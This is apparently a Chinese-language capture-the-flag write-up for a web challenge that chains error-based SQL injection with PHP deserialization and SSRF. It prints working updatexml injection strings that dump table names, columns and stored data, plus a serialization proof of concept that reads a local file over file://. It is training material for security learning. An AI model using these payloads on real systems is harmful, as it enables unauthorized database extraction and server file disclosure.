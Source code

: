 # 考察知识点：

1.sql报错注入

2.ssrf搭配序列化

3.robots.txt

4.file:///协议



# 1.访问robots.txt

提示存在/user.php.bak

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/72B39B1C0ED14DDCB968DEE590DB7BDCclipboard.png)

# 2.user.php

```javascript
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```



get方法，明显存在ssrf漏洞，__construct也有可能存在序列化



同时访问flag.php也存在flag.php文件，所以大体思路就是ssrf访问flag.php文件得到flag



# 3.发现view.php存在sql注入漏洞

有报错，所以考虑报错注入，注入没有任何限制，注入得到



## 3.1.查表名

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/5F5430D49C0C4854BCA3B330672C7588clipboard.png)



## 3.2.查字段

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/F7D5C03BA44440D9BF8A2533F90600F7clipboard.png)



## 3.3.查数据

?no=1 and updatexml(1,make_set(7,'~',(select data from users)),1)#

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/DA1AC6E0DDA340B1BD378E5E1FF07416clipboard.png)



# 4.得到的data字段的数据为序列化数据

此时可以大体推断view.php从数据库中读取序列化数据然后反序列化时触发user.php中的__construct函数赋值，并显示出来



# 5.结合user.php中的ssrf漏洞，此时可以大体明白攻击思路

## 5.1 构造序列化数据

## 5.2sql注入漏洞查询触发，构造的序列化数据，得到flag.php文件的内容



# 6.构造序列化数据

```javascript
<?php


class UserInfo
{
    public $name = "s";
    public $age = 10;
    public $blog = "file:///var/www/html/flag.php";
    //public $blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php
}

$u=new UserInfo();
echo serialize($u);
```

此处注意，需要使用file://协议

使用$blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php 无法触发ssrf漏洞





# 7.触发构造的序列化数据

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2F17505F57C4427A80E43E85D1678BAEclipboard.png)



base64解码即可得到flag









